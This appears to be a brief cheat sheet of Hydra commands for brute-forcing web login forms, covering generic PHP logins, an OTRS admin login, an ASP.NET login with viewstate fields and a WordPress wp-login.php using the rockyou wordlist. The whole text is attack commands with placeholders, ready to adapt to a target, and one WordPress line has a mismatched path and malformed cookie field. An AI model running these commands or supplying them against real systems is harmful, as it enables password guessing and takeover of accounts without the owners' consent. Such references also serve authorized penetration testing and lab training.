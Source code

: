 ```
hydra -L <user file> -P <password file> <target ip> http-post-form "/<url>:<parameter>=<parameter value>:"<failure text"
```

```
hydra <RHOST> -l <USERNAME> -P /PATH/TO/WORDLIST/<FILE> http-post-form "/admin.php:username=^USER^&password=^PASS^:login_error"
hydra <RHOST> -l <USERNAME> -P /PATH/TO/WORDLIST/<FILE> http-post-form "/index.php:username=user&password=^PASS^:Login failed. Invalid"
hydra <RHOST> -L /PATH/TO/WORDLIST/<FILE> -P /PATH/TO/WORDLIST/<FILE> http-post-form "/login:usernameField=^USER^&passwordField=^PASS^:unsuccessfulMessage" -s <RPORT>
hydra <RHOST> -l root@localhost -P otrs-cewl.txt http-form-post "/otrs/index.pl:Action=Login&RequestedURL=Action=Admin&User=root@localhost&Password=^PASS^:Login failed" -vV -f
hydra <RHOST> -l admin -P /PATH/TO/WORDLIST/<FILE> http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=COOKIE_1&__EVENTVALIDATION=COOKIE_2&UserName=^USER^&Password=^PASS^&LoginButton=Log+in:Login failed"
```

hydra http://wordpress.local/wp-login.php -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/login:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fwordpress.local%2Fwp-admin%2F&testcookie:1:Error: The password you entered for the username admin is incorrect."

redirect_to: http://wordpress.local/wp-admin/

hydra wordpress.local -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fwordpress.local%2Fwp-admin%2F&testcookie=1:The password you entered for the username admin is incorrect."